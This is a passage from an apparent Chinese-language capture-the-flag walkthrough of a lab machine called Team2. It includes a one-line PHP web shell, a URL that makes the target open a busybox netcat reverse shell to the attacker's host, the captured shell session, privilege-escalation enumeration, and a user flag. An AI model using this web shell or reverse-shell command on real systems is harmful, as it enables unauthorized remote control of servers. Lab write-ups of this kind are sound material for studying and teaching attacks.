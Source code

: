 提交后访问/dev/phpinfo.php返回404。等待一段时间后发现有定时任务触发同步。

**添加命令执行文件cmd.php：**

```php
<?php
exec($_GET["cmd"])
?>
```

提交变更后等待同步。当文件同步成功时，访问该文件会返回500状态码而非404。

# 六、获取Shell

通过cmd.php执行命令反弹shell：

```bash
# 触发反弹shell
http://192.168.205.168/dev/cmd.php?cmd=busybox%20nc%20192.168.205.128%208888%20-e%20/bin/bash
```

成功获得www-data权限的shell：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.168] 60904
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 七、权限提升

稳定shell后进行信息收集：

```bash
www-data@Team2:/var/www/html/dev$ sudo -l
[sudo] password for www-data: 
sudo: a password is required

www-data@Team2:/var/www/html/dev$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

检查用户目录和文件权限：

```bash
www-data@Team2:/home$ ls -al
total 16
drwxr-xr-x  4 root  root  4096 Sep  3 04:54 .
drwxr-xr-x 18 root  root  4096 Mar 18 20:37 ..
drwxr-xr-x  3 gitea gitea 4096 Sep  3 06:16 gitea
drwxr-xr-x  2 todd  todd  4096 Sep  3 06:16 todd

www-data@Team2:/home/todd$ cat user.txt 
flag{user-389c9909b8d6a701217a45104de7aa21}
```
